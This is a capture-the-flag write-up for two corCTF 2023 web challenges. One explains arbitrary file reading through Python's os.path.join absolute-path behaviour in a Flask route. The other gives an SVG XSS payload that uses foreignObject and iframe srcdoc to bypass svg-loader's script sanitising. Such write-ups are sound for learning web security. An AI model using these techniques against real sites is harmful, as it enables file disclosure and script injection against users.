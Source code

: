 Write-ups by others:

1. [https://siunam321.github.io/ctf/corCTF-2023/web/force/](https://siunam321.github.io/ctf/corCTF-2023/web/force/)
2. [https://github.com/hanzotaz/corctf2023_writeup/](https://github.com/hanzotaz/corctf2023_writeup/)

### msfrognymize (64 solves)

The key is in this piece of code:

``` python
@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')
```

Python's `os.path.join` has a well-known behavior where it ignores everything before the absolute path:

```
>>> os.path.join('/tmp/abc', 'test.txt')
'/tmp/abc/test.txt'
>>> os.path.join('/tmp/abc', '/test.txt')
'/test.txt'
```

Therefore, by leveraging this behavior, you can achieve arbitrary file reading and obtain the flag.

Reference: [https://siunam321.github.io/ctf/corCTF-2023/web/msfrognymize/](https://siunam321.github.io/ctf/corCTF-2023/web/msfrognymize/)

### frogshare (33 solves)

This challenge uses a library called [svg-loader](https://github.com/shubhamjain/svg-loader), which automatically loads an SVG URL. Therefore, this challenge is based on SVG XSS.

During the import, for security reasons, scripts and inline scripts are automatically removed, but `<foreignObject>` is overlooked. This tag allows you to load HTML inside an SVG, and it can be bypassed by using iframe srcdoc:

``` xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>

  <foreignObject>
    <iframe srcdoc="&lt;script&gt;alert(document.domain)&lt;/script&gt;"></iframe>
  </foreignObject>
</svg>
```

